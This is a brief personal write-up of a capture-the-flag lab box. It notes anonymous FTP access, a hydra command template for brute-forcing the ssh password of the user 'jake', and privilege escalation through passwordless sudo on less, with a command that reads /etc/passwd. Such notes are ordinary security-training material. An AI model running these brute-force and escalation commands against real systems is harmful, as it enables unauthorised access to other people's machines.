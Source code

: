 # Write up

## Keys words
- Brute force
- find info


## Links
- [[Pentesting]]


## Info
- Source code of home page `<!-- Have you ever heard of steganography? -->`
### note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine


## Enumeration
### Nmap
- Ftp anonymous 
- http 80
- ssh

## Exploit
- Ftp anonymous `anonymous:anonymous` => note_to_jake. Command `get <file>`
- Brute force ssh `jake` password with hydra. Command ``hydra -l <username> -P <path_wordlist> <Ip> ssh

## Privilege Escalation

```bash 
sudo -l ``` => no password /usr/bin/less
Exemple:
sudo /usr/bin/less /etc/passwd
```